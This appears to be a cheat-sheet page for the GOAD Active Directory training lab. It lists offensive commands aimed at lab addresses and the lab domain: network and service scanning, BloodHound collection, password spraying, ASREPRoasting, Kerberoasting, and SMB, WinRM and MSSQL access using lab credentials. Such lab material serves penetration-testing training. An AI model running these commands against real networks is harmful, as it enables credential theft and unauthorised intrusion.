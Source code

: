 ## 📋 **Quick Reference & Cheat Sheets**

### **Essential GOAD Commands**

#### **Initial Reconnaissance**
```bash
# Network discovery
nmap -Pn 192.168.20.0/24 -sn

# Service enumeration  
naabu -list goad-targets.txt -top-ports 1000

# BloodHound collection
bloodhound-python -u hodor -p hodor -d north.sevenkingdoms.local -dc 192.168.20.11 -c All
```

#### **Credential Attacks**
```bash
# Password spraying
crackmapexec smb 192.168.20.0/24 -u users.txt -p 'Winter2019' --continue-on-success

# ASREPRoasting
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -no-pass

# Kerberoasting
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11
```

#### **Lateral Movement**
```bash
# SMB enumeration
smbclient -L //192.168.20.23 -N

# WinRM access
evil-winrm -i 192.168.20.22 -u jon.snow -p password

# MSSQL connection
mssqlclient.py north.sevenkingdoms.local/jon.snow:password@192.168.20.22 -windows-auth
```

### **Key File Locations**
- **BloodHound Data**: `~/.local/share/bloodhound/`
- **Nuclei Templates**: `~/.nuclei-templates/`
- **GOAD Targets**: `~/lab-scans/goad/targets.txt`
- **Results Directory**: `~/goad-results/`

---

## 📞 **Support & Resources**

### **Official Documentation**
- **GOAD Official**: https://orange-cyberdefense.github.io/GOAD/
- **Mayfly's Writeups**: https://mayfly277.github.io/categories/goad/
- **BloodHound Documentation**: https://bloodhound.readthedocs.io/
